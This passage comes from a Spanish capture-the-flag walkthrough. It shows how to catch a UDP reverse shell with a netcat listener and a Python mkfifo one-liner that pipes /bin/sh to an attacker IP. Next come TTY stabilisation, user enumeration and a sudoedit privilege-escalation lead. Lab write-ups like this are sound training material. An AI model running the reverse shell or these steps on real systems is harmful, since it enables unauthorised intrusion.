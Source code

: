 ### Reverse shell por UDP {-}

1. En la maquina de atacante con el parametro `-u`

    ```bash
    nc -u -nlvp 443
    ```

1.en la consola interactiva

    ```python
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
    ```

Y ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
whoami

#Output
werkzeug

cd /home/alekos
cat user.txt
```

No podemos leer la flag. Quiere decir que vamos a tener que convertirnos en el usuario alekos.

```bash
id
sudo -l
```

El comando `sudo -l` nos dice que podemos ejecutar `sudoedit /var/www/*/*/layout.html` como el usuario alekos. 



## Escalada de privilegios {-}
